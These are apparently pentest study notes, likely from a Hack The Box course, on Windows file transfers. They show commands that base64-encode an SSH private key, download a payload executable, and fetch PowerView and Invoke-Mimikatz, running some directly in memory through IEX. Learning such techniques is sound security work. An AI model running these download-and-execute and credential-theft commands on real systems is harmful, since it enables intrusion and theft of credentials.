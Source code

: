# Windows


##  <span style='color:lightgreen'> WEB DOWNLOADS </span>
-----

- base64 one line
```bash
cat id_rsa | base64 -w 0; echo
```
- WriteBytes to file from base64-string 
```C#
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<Base64-Here>")) // Sometimes if a ' = ' was missing at the end of the base64, it would complain about an invalid base64 length .
```

- Confirm md5

```c#
Get-FileHash <File-Path> -Algorithm md5
```

#### Powershell Web Downlaods

- Net.WebClient (DownloadFile)
```C#
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('http://172.16.1.5:8000/payload.exe','C:\Users\Public\Downloads\payload.exe')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```

- Net.WebClient (DownloadString), Fileless method 
  IEX cmdlet to invoke the script directly from memory .
```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') # can also accept pipline input | EIX
```

#### PowerShell Invoke-WebRequest
on powershell 3.0 onwards 

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

#### Comment issues
the Invoke-Webrequests  rely on internet explorer objects and libs, however it might return some errors, if the user hasn't used internet explorer or never completed the internet explorer setup.
```powershell
 Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX -UseBasicParsing  # To bypass the issue .
```
